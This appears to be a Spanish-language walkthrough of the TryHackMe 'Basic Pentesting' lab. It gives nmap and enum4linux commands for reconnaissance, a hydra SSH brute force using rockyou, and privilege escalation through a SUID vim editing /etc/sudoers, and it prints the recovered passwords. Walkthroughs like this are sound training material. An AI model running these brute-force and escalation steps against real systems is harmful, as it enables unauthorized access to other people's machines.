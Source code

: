 # Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080

![image.png](<imagenes/image 6.png>)

- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```

![image.png](<imagenes/image 7.png>)

- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/

![image.png](imagenes/image 8.png)

**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```

![image.png](imagenes/image 9.png)

User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    

![image.png](imagenes/image 10.png)

- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```

![image.png](imagenes/image 11.png)

```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```

